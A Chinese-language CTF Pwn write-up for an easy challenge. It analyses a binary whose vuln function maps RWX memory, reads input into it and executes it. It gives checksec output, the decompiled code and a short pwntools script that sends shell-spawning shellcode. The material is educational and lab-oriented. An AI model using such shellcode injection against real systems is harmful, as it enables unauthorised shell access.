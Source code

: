 # 简单的shellcode

- 作者：pn1fg

- 参考：-

- 难度：Easy

- 分类：Pwn

- 暴露端口：70

# 题目描述

-

# 题目解析

- 源码：[shellcode.c](build/shellcode.c)
- 考点：写shellcode

`shellcode` 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 `shel`l。一般来说，shellcode 需要我们自己填充，要想执行`shellcode`，需要对应的 `binary`在运行时，`shellcode`所在的区域具有可执行权限。

---

#### 查看文件信息

查看文件类型：

```shell
>>> file shellcode
shellcode: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e4a67a1f629c4ad7e86b6fd9e87a1bceccf80f7d, for GNU/Linux 3.2.0, not stripped
```

这是一个64位 ELF 文件，动态链接，没有去除符号

查看保护机制：

```shell
>>> checksec --file=shellcode
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX 保护

#### 分析漏洞成因

反编译`vuln`函数

```c
void sym.vuln(void)

{
    code *pcVar1;
    ulong buf;

    pcVar1 = sym.imp.mmap(0, 0x400, 7, 0x22, 0, 0);
    sym.imp.puts("Please Send !!!!");
    sym.imp.read(0, pcVar1, 0x400);
    (*pcVar1)();
    return;
}
```

这个`mmap`函数可能大家都不太熟悉，可以去了解一下这个函数的作用

`mmap`函数在本题中的作用是，将`pcVar1`指针指向的区域中大小为 0x400 的内存赋予可读可写可执行的权限，`read`函数从标准输入读取 0x400 的数据存入刚刚指针指向的区域

所以本题的大致思路就是，通过`read`函数我们将一段`shellcode`写入内存中并且执行它从而拿到`shell`

#### 编写利用程序

[exp.py](writeup/exp.py):

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

io = process('./shellcode')

shellcode = asm(shellcraft.sh()) 

payload = flat([shellcode,])

io.sendlineafter(b'!\n',payload)

io.interactive()
```

